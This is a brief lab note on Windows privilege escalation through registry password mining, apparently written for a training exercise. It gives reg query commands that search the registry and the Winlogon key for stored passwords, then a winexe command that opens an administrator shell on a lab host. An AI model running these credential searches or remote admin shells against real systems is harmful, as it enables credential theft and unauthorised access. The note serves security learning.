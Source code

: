 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
  - RegistryVulnerabilitiesAndTokens
---
```

[Windows Local Privilege Escalation - Password Mining (Registry) - YouTube](https://www.youtube.com/watch?v=2fF4Xre-w2g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=10)


(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)

1. The registry can be searched for keys and values that contain the word "password":

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

2. If you want to save some time, query this specific key to find admin AutoLogon credentials:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

3. On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

```
winexe -U 'admin%password' //10.10.181.132 cmd.exe
```